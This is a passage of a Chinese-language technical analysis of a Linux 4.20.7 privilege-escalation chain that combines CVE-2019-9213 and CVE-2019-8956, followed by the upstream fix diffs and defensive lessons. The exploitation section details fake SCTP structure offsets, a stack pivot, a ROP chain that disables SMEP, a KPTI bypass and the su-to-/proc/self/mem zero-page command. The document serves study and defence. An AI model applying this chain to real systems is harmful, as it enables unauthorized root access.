该方案充分利用了两个漏洞的互补性：**CVE-2019-9213** 提供零页映射能力，**CVE-2019-8956** 提供接近 NULL 的可控解引用。在无 SMAP 的环境中，内核可以直接读取用户空间伪造的数据，使得整个利用链可行。两个漏洞缺一不可，单独任何一个都无法独立完成提权。

### 5-2. 利用步骤

#### 5-2-1. 环境准备

- **绑定 CPU 核心**：将当前进程绑定到单个 CPU 核心（如 CPU 0），避免多核并行执行导致的内存布局不一致或竞态条件干扰伪造数据的稳定性。在多核环境下，内核调度可能导致不同 CPU 上的缓存不一致，绑定核心可以确保伪造结构被同一 CPU 访问，降低不确定性。
- **保存用户态上下文**：记录当前的段寄存器（CS、SS、DS、ES、FS、GS）、栈指针（ESP）、标志寄存器（EFLAGS）。这些值将在提权后的 `iret` 指令中使用，以正确恢复用户态执行环境。由于内核提权后需要无缝返回用户空间的 `get_root_shell` 函数，必须提前保存这些寄存器状态。

#### 5-2-2. 零页映射（CVE-2019-9213）

该步骤的详细流程如下：



1. 在当前进程中创建一个匿名映射，起始地址为 `0x10000`，长度为一页，并设置 `MAP_GROWSDOWN` 标志，表示该 VMA 可向下扩展。之所以选择 `0x10000`，是因为 `dac_mmap_min_addr` 默认值为 `0x10000`，初始映射必须高于此值才能通过常规的 `mmap` 检查。
2. 打开 `/proc/self/mem` 文件描述符，获取写入权限。该文件允许直接读写进程的虚拟地址空间，是触发 `expand_downwards` 的关键接口。
3. 利用 `su` 命令（具有 `CAP_SYS_RAWIO` 能力）向 `/proc/self/mem` 写入数据，写入的目标地址逐渐降低（每次减小 `0x4000`）。每次写入都会触发内核的 `expand_downwards` 路径，由于 `su` 的凭据拥有 `CAP_SYS_RAWIO`，`security_mmap_addr` 检查被绕过，VMA 得以扩展到更低地址。这里使用 `echo 'BinRacer' | su >& /proc/self/mem` 的方式，虽然会产生 "su: incorrect password" 的错误信息，但这不影响实际效果，因为 `su` 在执行过程中已经获得了目标进程的文件描述符并完成了写入。
4. 重复上述步骤，直至 VMA 起始地址达到 `0`。此时虚拟地址 0 已被映射为可写页面，操作者可以像操作普通内存一样读写零页。需要注意的是，每次扩展后 VMA 的起始地址会降低 `0x4000`（因为 `expand_downwards` 一次扩展一个 PMD 大小），因此需要多次迭代才能从 `0x10000` 降到 `0`。

#### 5-2-3. 布置伪造结构与 ROP 链

在零页上按照内核数据结构的内存布局填充以下内容：



- **伪造的 `sctp_association` 结构**：放置在地址 `0xbc`（由 `container_of` 计算得出）。关键字段包括：
    - `base.sk`（偏移 `0x18`）：设为 `0x0`，指向伪造的 `sctp_sock`。这样当内核访问 `asoc->base.sk` 时，就会读取到零页地址 `0x0` 处的数据。
    - `state`（偏移 `0x1ac`）：设为一个精心计算的数值，使得后续 `sctp_sm_lookup_event` 的二维数组索引结果为零页地址 `0x0`。该值的计算方法是通过逆向 `sctp_sm_lookup_event` 的反汇编，确定数组基址和步长，然后解方程得到使最终地址为 `0` 的 `state` 值。
- **伪造的 `sctp_sock` 结构**：放置在地址 `0x0`。关键字段：
    - `type`（偏移 `0x2b8`）：设为 `SCTP_SOCKET_TCP`，以通过 `sctp_style()` 检查。注意在触发第二次循环时，`sctp_sendmsg_check_sflags` 会调用 `sctp_style(sk, UDP)`，由于 `sk` 指向零页，我们需要让 `sctp_style` 返回假，以避免进入 `SCTP_SENDALL` 的额外检查。实际上，当 `asoc=0xbc` 时，`sctp_sendmsg_check_sflags` 会先检查 `sctp_state(asoc, CLOSED) && sctp_style(sk, TCP)`，由于我们伪造了 `type=SCTP_SOCKET_TCP`，该条件不成立；接着检查 `(sflags & SCTP_SENDALL) && sctp_style(sk, UDP) && !sctp_state(asoc, ESTABLISHED)`，由于 `sctp_style(sk, UDP)` 返回假（因为 `type` 是 TCP），该条件也不成立，从而直接进入 `SCTP_ABORT` 处理分支。
- **伪造的 `sctp_sm_table_entry` 结构**：放置在地址 `0x0`。关键字段：
    - `fn`：指向一个栈迁移 gadget。该 gadget 会将内核栈指针切换到某个可控寄存器所指向的地址，而该寄存器的值来源于伪造的 `asoc` 结构中的某个可控字段（例如 `asoc->base.sk` 或 `asoc->state` 附近的某个位置）。通过调试确定该寄存器在调用 `state_fn->fn` 前的取值来源，然后在零页相应位置放置 ROP 链的起始地址。
- **ROP 链**：放置在零页上适当偏移处。ROP 链的设计如下：
    - 第一条 gadget：一个栈指针调整 gadget，用于跳过内核栈上的残留数据，使后续 gadget 对齐到预设位置。这是因为栈迁移后，栈顶可能还残留着之前的函数调用帧，需要跳过一定字节才能到达干净的 ROP 链。
    - 后续 gadget 序列：
        1. 一个加载常量的 gadget，将特定值（用于禁用 SMEP）载入某个寄存器。
        2. 一个写控制寄存器的 gadget，将该值写入 CR4，清除 SMEP 位，从而禁用 SMEP。后续跟随一个占位值的弹出操作。
        3. 调用位于用户空间的提权函数。由于 SMAP 已关闭，内核可以正常访问用户空间内存，因此可以直接跳转到用户空间的函数地址。

#### 5-2-4. 触发漏洞（CVE-2019-8956）

触发过程的完整调用链如下：



1. 创建一个 SCTP UDP 样式的服务器 socket，绑定到本地端口（如 6666），开始监听。选择 UDP 样式是因为 `sctp_sendmsg` 中的 `SCTP_SENDALL` 分支要求 `sctp_style(sk, UDP)` 为真。
2. 创建一个客户端线程，向服务器发送一条消息，从而建立一条 SCTP 关联（association）。客户端使用 `SOCK_SEQPACKET` 类型，这是 SCTP 的默认套接字类型，兼容 UDP 样式。
3. 服务器接收该消息，确认关联已建立。此时 `ep->asocs` 链表中包含一个有效的关联节点。
4. 服务器调用 `sctp_sendmsg`，设置 `sinfo_flags = SCTP_SENDALL | SCTP_ABORT`（即 `0x44`）。该调用将触发内核中的以下路径：
    - `sctp_sendmsg` 进入 `SCTP_SENDALL` 分支，使用 `list_for_each_entry` 遍历 `ep->asocs`。
    - 第一次循环中，`sctp_sendmsg_check_sflags` 检测到 `SCTP_ABORT`，调用 `sctp_primitive_ABORT` → `sctp_do_sm` → `sctp_side_effects` → `sctp_cmd_interpreter` → `sctp_cmd_delete_tcb` → `sctp_association_free` → `list_del`。`list_del` 将当前关联的 `asocs.next` 毒化为 `LIST_POISON1`（`0x100`）。
    - `sctp_sendmsg_check_sflags` 返回 `0`，循环执行 `continue`。
    - 第二次循环中，`list_for_each_entry` 读取 `asocs.next = 0x100`，通过 `container_of` 计算出 `asoc = 0xbc`。
    - 内核将 `0xbc` 视为关联指针，再次调用 `sctp_sendmsg_check_sflags`。此时 `asoc->base.sk` 指向零页地址 `0xbc+0x18=0xd4`，但我们事先在零页 `0xd4` 处放置了 `0x0`，所以 `sk=0`。随后的 `sctp_style` 检查由于 `type` 被设为 TCP 而通过，进入 `SCTP_ABORT` 分支。
    - 调用 `sctp_primitive_ABORT(net=0x0, asoc=0xbc, chunk)`，其中 `net` 来自 `sock_net(sk)=0`。在 `sctp_primitive_ABORT` 中，从伪造的 `asoc` 中读取 `state` 和 `ep`，最终到达 `sctp_do_sm`。
    - `sctp_do_sm` 调用 `sctp_sm_lookup_event`，由于 `state` 被伪造为越界值，查表结果指向零页上的伪造 `sctp_sm_table_entry`。
    - 执行 `state_fn->fn`，即栈迁移 gadget，控制流被劫持。

#### 5-2-5. 提权与返回用户态

ROP 链执行完毕后，调用用户空间的提权函数。该函数执行以下操作：

- 调用 `commit_creds(prepare_kernel_cred(0))`，将当前进程的凭证提升为 root。`prepare_kernel_cred(0)` 会创建一个新的 root 凭证结构，`commit_creds` 将其应用到当前进程。
- 通过内联汇编修改 CR3 寄存器（将其值与一个特定掩码进行或运算），切换到用户空间页表，绕过 KPTI。在 32 位 x86 上，KPTI 通过 CR3 的最高位（或最低位，取决于实现）来区分内核页表和用户页表，该掩码是一个已知的常量。
- 恢复之前保存的用户态段寄存器、栈指针和标志寄存器。这些值在阶段一已经保存，现在通过内联汇编加载到相应寄存器。
- 执行 `iret` 指令，返回到用户空间的 `get_root_shell` 函数，获得 root shell。`iret` 会从栈上弹出 CS、EIP、EFLAGS、SS、ESP，完成模式切换。

### 5-3. 关键技术与挑战

#### 5-3-1. 栈迁移

由于内核栈在触发漏洞时包含大量函数调用帧（从 `sctp_sendmsg` 到 `sctp_do_sm` 等多层嵌套），直接执行 ROP 链需要先将栈指针切换到可控区域。利用方案选择了一个栈迁移 gadget，该 gadget 能将栈指针切换到某个可控寄存器所指向的地址。通过调试确定该寄存器在调用 `state_fn->fn` 前的取值来源（来自伪造的 `asoc` 结构中的某个字段），从而精确地将栈指针导向零页上预置的 ROP 链起始位置。选择该 gadget 的原因是它简洁高效，只需要一个寄存器就能完成栈切换，且后续的弹出操作可以清理残留数据。

#### 5-3-2. ROP 链设计

ROP 链需要完成三个核心任务：禁用 SMEP、提权、绕过 KPTI。由于 SMEP 阻止内核直接执行用户空间代码，必须先修改 CR4 寄存器清除第 20 位。ROP 链通过一系列 gadget 实现：首先将一个代表新 CR4 值的常量加载到寄存器中，该值保留了其他必要的 CR4 位（如 PAE、PSE 等），同时清除了 SMEP 位；然后通过一个写控制寄存器的 gadget 将该值写入 CR4。之后调用用户空间的提权函数，该函数位于用户空间的可执行页面中（由于 SMAP 已关闭，内核可以访问用户空间内存）。

#### 5-3-3. 伪造结构体布局

内核在解引用 `asoc` 时，会访问多个字段（如 `base.sk`、`state`、`ep` 等）。每个字段的偏移量必须与内核源码中的定义严格一致。操作者需要通过调试或阅读源码确定这些偏移量，并在零页上相应位置填入控制值。特别是 `state` 字段的值需要精确计算，使得 `sctp_sm_lookup_event` 中的二维数组索引结果为 `0x0`。这涉及到对 `sctp_sm_lookup_event` 反汇编的理解，以及对 `primitive_event_table` 基址和数组步长的掌握。具体来说，`sctp_sm_lookup_event` 对于 `SCTP_EVENT_T_PRIMITIVE` 会执行 `DO_LOOKUP` 宏，其内部计算为 `&primitive_event_table[subtype][state]`。通过调试可知 `primitive_event_table` 的基址和步长，需要解出使最终地址为 `0` 的 `state` 值。

#### 5-3-4. 绕过 KPTI

KPTI（Kernel Page Table Isolation）将内核页表与用户页表分离，内核态无法直接访问用户空间页表。为了返回用户态，需要将 CR3 切换回用户空间页表。在 ROP 链执行完提权后，提权函数通过内联汇编将 CR3 的值与一个特定掩码进行或运算（32 位系统下 KPTI 的切换标志），从而切换到对应的用户页表。然后通过 `iret` 返回用户态，此时 CPU 会自动使用新的 CR3。需要注意的是，在修改 CR3 之前必须确保当前执行环境（栈、代码）仍在有效内存中，因此先完成提权再进行页表切换。

### 5-4. 内核保护机制应对策略

下表总结了各保护机制的应对方法：

| 保护机制                                               | 应对方法                                                                                                                                                         |
| ------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **SMEP**（Supervisor Mode Execution Prevention）       | 通过 ROP 链修改 CR4 寄存器，清除第 20 位（SMEP 位），使内核能够执行用户空间代码。这一步必须在提权之前完成，因为后续的提权函数位于用户空间。                      |
| **KPTI**（Kernel Page Table Isolation）                | 在提权后，通过内联汇编将 CR3 与一个特定掩码进行或运算，切换到用户空间页表，然后使用 `iret` 返回用户态。注意切换顺序：先提权，再改 CR3，最后 iret。               |
| **KASLR**（Kernel Address Space Layout Randomization） | 本实验环境已关闭 KASLR，因此可以直接使用硬编码的内核符号地址（如 `prepare_kernel_cred`、`commit_creds`）。若开启 KASLR，则需要额外的信息泄露步骤来获取这些地址。 |
| **SMAP**（Supervisor Mode Access Prevention）          | 本实验环境未开启 SMAP，因此内核可以无障碍地读取用户空间零页上的伪造数据。若开启 SMAP，则需要寻找其他绕过方式（如使用内核栈上的现有数据或通过硬件特性绕过）。     |

特别说明：SMAP 的缺失是本次利用的关键前提之一，因为它允许内核直接解引用用户空间提供的指针（如 `asoc=0xbc`）并读取其中的内容。如果 SMAP 开启，内核会在访问用户空间地址时触发页面错误，导致拒绝服务。而 SMEP 虽然开启，但可以通过 ROP 链修改 CR4 来绕过，因此不是障碍。

### 5-5. 利用条件与局限性

#### 5-5-1. 必要条件

- **内核版本**：Linux 4.20.7（或 4.20.8 以下版本，4.20.8 已修复 **CVE-2019-8956**；**CVE-2019-9213** 需小于 4.20.14）。
- **编译选项**：
    - SCTP 协议栈必须启用（`CONFIG_IP_SCTP` 等）。
    - 需要 `CONFIG_USER_NS` 和 `CONFIG_NET_NS` 等命名空间支持（用于 `/proc/self/mem` 操作）。
- **辅助程序**：系统中必须存在一个具有 `CAP_SYS_RAWIO` 能力的 setuid-root 程序（如 `su`），用于零页映射。
- **保护状态**：
    - SMAP 必须关闭（否则内核无法读取用户空间伪造数据）。
    - KASLR 最好关闭（否则需要信息泄露；但理论上可以通过暴力破解或结合其他漏洞绕过）。
    - SMEP 和 KPTI 可以开启（利用方案已包含绕过方法）。
- **架构**：x86 32 位（利用代码依赖于特定的偏移量和 gadget 地址，但原理同样适用于 64 位，需适配）。

#### 5-5-2. 局限性

- 依赖特定内核版本和配置，部分发行版默认不加载 SCTP 模块。
- 需要交互式地使用 `su` 命令，可能留下日志痕迹。此外，`su` 命令的执行会产生密码错误提示，可能引起管理员注意。
- 零页映射步骤需要多次调用 `system(cmd)`，效率较低且可能被监控。每次调用都会创建一个新进程，增加了时间开销和噪声。
- 若 KASLR 开启，需要额外的信息泄露步骤来获取内核符号地址和 gadget 地址，增加复杂度。例如，可能需要先利用另一个信息泄露漏洞读取 `/proc/kallsyms` 或通过侧信道猜测地址。
- 若 SMAP 开启，该利用链无法直接工作，需要寻找其他方法（如利用内核栈上的现有数据构造伪对象，或使用 `physmap` 等内核内存区域）。
- 该利用方案针对 32 位系统设计，64 位系统需要重新计算偏移量、gadget 地址以及 KPTI 切换方式（64 位 KPTI 使用不同的 CR3 切换机制）。

### 5-6. 总结

本利用方案展示了如何将两个看似独立的漏洞（一个提供零页映射，一个提供接近 NULL 的解引用）组合成完整的提权链。其核心思想是通过 **CVE-2019-9213** 创造可控的零页，再通过 **CVE-2019-8956** 将内核控制流引导至零页上的伪造对象，最终通过栈迁移和 ROP 链绕过 SMEP 和 KPTI，实现权限提升。

整个流程的概览如下图所示：



该方案的突出特点是触发条件极其简单——仅需一次 `sendmsg()` 调用即可完成漏洞触发，无需复杂的堆布局或竞态条件。然而，它对环境有严格要求（无 SMAP、KASLR 关闭），这反映了单一漏洞缓解措施在纵深防御体系下的重要性。在实际环境中，若能同时启用 SMAP、KASLR、SMEP 和 KPTI，即使存在类似的逻辑缺陷，也难以构造如此直接的利用链。

从防御角度，该案例再次强调了以下原则：

- 链表遍历时必须使用安全版本宏（`list_for_each_entry_safe`），避免在遍历过程中删除节点导致指针毒化。这是 **CVE-2019-8956** 的根本原因，修复仅需一行改动。
- 安全补丁的引入必须充分考虑调用上下文，避免因 `current_cred()` 的误用引入新的绕过途径（**CVE-2019-9213** 的教训）。补丁作者的本意是加强防护，却因忽略调用链上下文而创造了新的漏洞。
- 多层保护机制的叠加可以显著提高利用门槛，即使某一层被突破，后续机制仍能起到抑制作用。例如，即使 SMAP 关闭，KASLR 和 SMEP 的组合仍然可以阻止大多数利用尝试。本案例中，正是因为 KASLR 关闭和 SMAP 关闭同时存在，才使得利用成为可能。

### 5-7. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 6. 漏洞修复

### 6-1. 修复概述

第3章和第4章分别剖析了两个漏洞的根因：**CVE-2019-8956** 源于 `sctp_sendmsg()` 中非安全链表遍历宏 `list_for_each_entry` 在循环体内删除节点后未正确处理后续迭代，导致读取毒化指针并计算出错误地址；**CVE-2019-9213** 则源于 `expand_downwards()` 中 `security_mmap_addr` 依赖 `current_cred()`，在 `/proc/self/mem` 的跨进程路径下发生上下文混淆，绕过了 `mmap_min_addr` 限制。两个漏洞虽属不同子系统，但都暴露了内核安全设计中容易被忽视的共性缺陷：遍历与修改的一致性与权限检查的上下文明确性。

Linux 内核社区分别通过两个补丁予以修复，修复节奏与影响版本如下：

- **CVE-2019-8956**：补丁 `ba59fb027307`，合入 4.20.8 及后续稳定分支（4.19 稳定分支于 4.19.21 修复），修复思路为**将非安全遍历宏替换为安全版本**，从根源上避免毒化指针被读取。
- **CVE-2019-9213**：补丁 `0a1d52994d44`，合入 4.20.14 及后续稳定分支，修复思路为**移除上下文相关的权限检查，直接比对地址下限**，彻底解决 `/proc/self/mem` 路径下的权限检查上下文混淆问题。

两个补丁都以极小的改动量精准封堵了漏洞根源，体现了内核安全维护中“对症下药”的设计哲学。下面分别深入分析每个补丁的具体改动及其背后的设计考量。

### 6-2. CVE-2019-8956 修复

回顾第3章的源码分析，漏洞触发点位于 `sctp_sendmsg()` 函数的 `SCTP_SENDALL` 处理分支。该分支使用 `list_for_each_entry` 宏遍历端点关联链表 `ep->asocs`。当循环体内调用 `sctp_sendmsg_check_sflags` 检测到 `SCTP_ABORT` 并触发关联释放时，`list_del` 将当前节点的 `asocs.next` 毒化为 `LIST_POISON1`（`0x100`）。由于 `sctp_sendmsg_check_sflags` 返回 `0`，循环执行 `continue`，下一次迭代读取毒化指针，通过 `container_of` 计算出接近 NULL 的地址 `0xbc`，最终导致控制流劫持。

补丁的改动极为精准，仅包含两处修改：增加临时变量声明，以及将遍历宏替换为安全版本。以下为补丁的完整 diff：

```diff
--- a/net/sctp/socket.c
+++ b/net/sctp/socket.c
@@ -2027,7 +2027,7 @@ static int sctp_sendmsg(struct sock *sk, struct msghdr *msg, size_t msg_len)
 	struct sctp_endpoint *ep = sctp_sk(sk)->ep;
 	struct sctp_transport *transport = NULL;
 	struct sctp_sndrcvinfo _sinfo, *sinfo;
-	struct sctp_association *asoc;
+	struct sctp_association *asoc, *tmp;
 	struct sctp_cmsgs cmsgs;
 	union sctp_addr *daddr;
 	bool new = false;
@@ -2053,7 +2053,7 @@ static int sctp_sendmsg(struct sock *sk, struct msghdr *msg, size_t msg_len)

 	/* SCTP_SENDALL process */
 	if ((sflags & SCTP_SENDALL) && sctp_style(sk, UDP)) {
-		list_for_each_entry(asoc, &ep->asocs, asocs) {
+		list_for_each_entry_safe(asoc, tmp, &ep->asocs, asocs) {
 			err = sctp_sendmsg_check_sflags(asoc, sflags, msg,
 							msg_len);
 			if (err == 0)
```

**修复逻辑说明**

- **增加临时变量 `tmp`**：在局部变量声明中添加了 `struct sctp_association *tmp`，用于在安全遍历宏中缓存下一个节点的指针。这是 `list_for_each_entry_safe` 正常工作所需的辅助变量。
- **替换遍历宏**：将 `list_for_each_entry` 替换为 `list_for_each_entry_safe`。安全版本宏在每次迭代开始时通过 `tmp` 保存下一个节点的地址，即使当前节点在循环体内被删除（`list_del` 毒化了 `next` 指针），后续迭代也能正确地从 `tmp` 获取下一个有效节点，而不会读取已被毒化的 `next` 指针。这是最核心的改动，直接从源头消除了毒化指针被读取的可能性。

该修复遵循了内核链表操作中的一个基本准则：**凡是在遍历过程中可能删除当前节点的场景，必须使用 `list_for_each_entry_safe` 或其变体**。这一准则在 Linux 内核开发文档中早有强调，但 `sctp_sendmsg` 的代码却忽略了这一点。补丁作者用最小改动精准封堵了漏洞，仅需添加一个临时变量并修改一行宏调用，体现了“对症下药”的设计哲学。

### 6-3. CVE-2019-9213 修复

第4章的源码追踪揭示了另一个截然不同的根因：`expand_downwards()` 函数在决定是否允许 VMA 向下扩展时，调用了 `security_mmap_addr(address)`。该函数内部通过 `cap_mmap_addr` 检查当前进程（`current_cred()`）是否具有 `CAP_SYS_RAWIO` 能力。然而，在 `/proc/self/mem` 的 write 路径下，`current` 是发起写入的辅助进程（如 `su`），而非目标 VMA 所属的进程。因此，只要辅助进程具有该能力，就可以绕过 `dac_mmap_min_addr` 的限制，将 VMA 扩展到任意低地址（包括 0）。

补丁的改动同样十分简洁，但意义深远。以下为补丁的完整 diff：

```diff
--- a/mm/mmap.c
+++ b/mm/mmap.c
@@ -2426,12 +2426,11 @@ int expand_downwards(struct vm_area_struct *vma,
 {
 	struct mm_struct *mm = vma->vm_mm;
 	struct vm_area_struct *prev;
-	int error;
+	int error = 0;

 	address &= PAGE_MASK;
-	error = security_mmap_addr(address);
-	if (error)
-		return error;
+	if (address < mmap_min_addr)
+		return -EPERM;

 	/* Enforce stack_guard_gap */
 	prev = vma->vm_prev;
```

**修复逻辑说明**

- **移除 `security_mmap_addr` 调用**：补丁删除了对 `security_mmap_addr()` 的调用，不再通过 LSM 钩子做能力检查。这意味着无论当前进程是谁、具有什么能力，都无法绕过 `mmap_min_addr` 的限制。从根本上消除了 `current_cred()` 上下文混淆的可能性。
- **直接比对 `mmap_min_addr`**：替换为简单的地址下限判断 `if (address < mmap_min_addr) return -EPERM`。`mmap_min_addr` 是系统全局配置（通常为 65536，即 0x10000），对所有进程一视同仁。无论通过何种路径触发 VMA 向下扩展——包括正常的栈自动增长、`/proc/self/mem` 写入、`ptrace` 内存操作等——只要目标地址低于该阈值，一律拒绝。
- **`error` 变量初始化**：将 `error` 的声明改为 `int error = 0`，避免了在早期返回路径中可能出现的未初始化使用风险（虽然原代码中 `error` 在返回前总有赋值，但显式初始化是良好的编程习惯）。

该修复也回应了第2章提到的“防护补丁自身引入新问题”的警示：**CVE-2019-9213** 本身就是 commit `8869477a`（引入 `security_mmap_addr` 检查）这个防护补丁引入的。那次补丁的本意是防止栈扩展到危险的低地址，却因忽略了 `/proc/self/mem` 的特殊上下文而创造了新的绕过路径。本次修复直接移除了上下文相关的检查逻辑，从机制上避免了同类问题复现，可谓“釜底抽薪”。

### 6-4. 修复总结

针对 **CVE-2019-8956**，其根因在于 `sctp_sendmsg` 中非安全链表遍历宏在循环体内删除节点后读取毒化指针。补丁采用替换为安全遍历宏的思路，将 `list_for_each_entry` 改为 `list_for_each_entry_safe`，并添加临时变量 `tmp`，于 4.20.8 主线合入。该修复切断了毒化指针被读取的路径，从根本上杜绝了接近 NULL 解引用的可能。

针对 **CVE-2019-9213**，其根因在于 `expand_downwards` 中 `security_mmap_addr` 依赖 `current_cred`，在 `/proc/self/mem` 路径下发生上下文混淆，从而绕过 `mmap_min_addr`。补丁采用移除上下文相关权限检查、直接比对地址下限的思路，将 `expand_downwards` 中的 `security_mmap_addr` 调用替换为 `address < mmap_min_addr` 的判断，于 4.20.14 主线合入。该修复消除了上下文混淆，使所有进程一视同仁，无法再绕过 `mmap_min_addr` 的限制。

两个补丁均以最小的改动量精准封堵了漏洞根源，体现了内核安全维护中“对症下药”的设计哲学。它们不仅解决了眼前的问题，更为后续的代码编写和审查提供了清晰的指引。

### 6-5. 延伸思考

两个补丁虽然分属不同子系统（SCTP 协议栈 vs 内存管理），但都指向了内核安全开发中两个普遍存在的痛点：

1. **遍历与修改的一致性**：内核中任何在遍历链表的同时可能删除当前节点的场景，必须使用安全版本宏（如 `list_for_each_entry_safe`）。`list_for_each_entry` 在循环体内删除节点后，后续迭代读取毒化指针是经典的 Use-After-Poison 模式。现代静态分析工具（如 Coccinelle、Sparse）已经能够检测部分此类模式，但仍需开发者保持警惕。**CVE-2019-8956** 的修复再次提醒我们，即使是基础的数据结构操作，一旦违反约定也可能酿成严重漏洞。

2. **权限检查的上下文明确性**：跨进程路径（如 `/proc/<pid>/mem`、`ptrace`、`process_vm_readv` 等）中的权限检查，必须明确“检查主体是 current 还是客体进程”，不能随意复用面向单进程场景的 `current_cred()` 类接口，否则容易引发上下文混淆类漏洞。**CVE-2019-9213** 正是这一原则的反面教材。补丁采用“一刀切”的全局下限比较，虽然牺牲了一定的灵活性（例如某些合法场景下低地址映射的需求），但换来了安全性的确定性。

这两个案例也再次印证了第2章提出的“纵深防御”理念：单一防护（如 `security_mmap_addr` 的 `cap_sys_rawio` 检查）在异常调用路径下可能失效，只有从机制设计上消除上下文歧义，并辅以多重隔离手段（如 SMAP、SMEP、KASLR、KPTI、CFI），才能构建真正坚固的内核安全防线。

从开发实践角度看，这两个补丁还启示我们：

- 代码审查时应特别关注链表遍历与节点删除共存的场景，确保使用安全遍历宏。
- 对于涉及跨进程操作的权限检查，应优先考虑基于客体的检查（如目标进程的凭据、地址空间的属性），而非基于 `current` 的检查。
- 最小权限原则同样适用于内核安全设计：能通过简单数值比较解决的问题，就不应引入复杂的 LSM 钩子。这不仅减少了利用面，也降低了因上下文混淆引入新漏洞的风险。

## 7. 免责声明

本文档旨在提供 **CVE-2019-8956 & CVE-2019-9213** 漏洞的技术分析与教育性内容，仅供学习、研究和安全防御目的使用。作者与发布平台对以下事项声明如下：

1. **合法使用原则**：本文档中描述的任何技术细节、代码示例或利用方法仅供教育研究之用。读者不得将这些信息用于任何非法、未经授权或恶意的活动，包括但不限于未经授权的系统入侵、数据破坏、服务干扰或其他违反法律法规的行为。

2. **知识共享与责任**：本文档基于公开可获取的信息、官方漏洞公告和学术研究资料编写。作者力求确保技术内容的准确性，但不对信息的完整性、时效性或适用性作任何明示或暗示的保证。读者应自行验证信息的准确性，并在专业环境中谨慎应用。

3. **环境限制**：所有技术分析和实验应在受控的、隔离的测试环境中进行，例如使用特制的虚拟机或专用硬件。禁止在任何生产环境、公共网络或他人系统中尝试漏洞利用或相关技术。

4. **法律合规性**：读者应遵守所在国家或地区的所有适用法律法规，包括但不限于计算机安全法、数据保护法和知识产权法。任何使用本文档内容的行为所产生的法律后果，由行为者自行承担。

5. **技术中立性**：本文档对漏洞的分析保持技术中立立场，旨在促进安全社区的防御能力提升。文中提及的任何工具、技术或方法不应被视为对任何组织、产品或技术的背书或批判。

6. **更新与修正**：技术领域发展迅速，本文档内容可能随时间而过时。作者保留更新、修正或撤回文档内容的权利，不承诺另行通知。

7. **版权声明**：本文档内容受版权法保护，未经明确书面许可，不得用于商业目的。允许在注明出处的前提下进行非商业性的分享与引用。

**重要提示**：安全研究应始终遵循道德准则，以提升整体网络安全为目标。如发现安全漏洞，建议通过负责任的披露流程向相关厂商或机构报告，共同维护数字生态的安全与稳定。

---

_本文档的撰写参考了公开的漏洞公告、内核源码（Linux 4.20.7）及相关技术分析文献。所有实验均在封闭的测试环境中完成，未对任何实际系统造成影响。_

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/CVE-2019-8956_V2
- https://xz.aliyun.com/news/6174
- https://xz.aliyun.com/news/6462
- https://paper.seebug.org/938
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=ba59fb0273076637f0add4311faa990a5eec27c0
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=0a1d52994d440e21def1c2174932410b4f2a98a1
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=8869477a49c3e99def1fcdadd6bbc407fea14b45
- https://nvd.nist.gov/vuln/detail/CVE-2019-8956
- https://nvd.nist.gov/vuln/detail/CVE-2019-9213
- https://ubuntu.com/security/CVE-2019-8956
- https://ubuntu.com/security/CVE-2019-9213
